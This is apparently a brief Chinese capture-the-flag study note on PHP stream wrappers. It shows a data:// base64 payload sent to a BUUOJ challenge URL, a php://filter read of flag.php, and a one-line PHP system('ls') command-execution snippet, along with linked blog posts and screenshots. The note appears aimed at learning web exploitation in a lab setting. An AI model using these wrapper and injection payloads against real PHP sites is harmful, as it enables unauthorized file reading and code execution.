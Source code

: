 # 常用协议 php、file、data
https://www.cnblogs.com/zzjdbk/p/13030717.html
https://www.cnblogs.com/wjrblogs/p/12285202.html
https://tyskill.github.io/posts/php_filter_%E8%BF%87%E6%BB%A4%E5%99%A8/
``` 
text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY= // d2VsY29tZSB0byB0aGUgempjdGY= 
解码后为 -----> welcome to the zjctf url：http://a7425027-7eb1-43be-a0c9-47a34018d60b.node3.buuoj.cn/?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=
```

 - 补充一下这个 `php://filter/resource=flag.php`
可以实行 php 代码？

``` php
<?php system('ls');
```

![image.png](https://raw.githubusercontent.com/MarchPhantasia/pic/main/hexoblog/20240808020222.png)

![image.png](https://raw.githubusercontent.com/MarchPhantasia/pic/main/hexoblog/20240808020204.png)

## 自己尝试

![image.png](https://raw.githubusercontent.com/MarchPhantasia/pic/main/hexoblog/20240808020352.png)

![image.png](https://raw.githubusercontent.com/MarchPhantasia/pic/main/hexoblog/20240808020531.png)
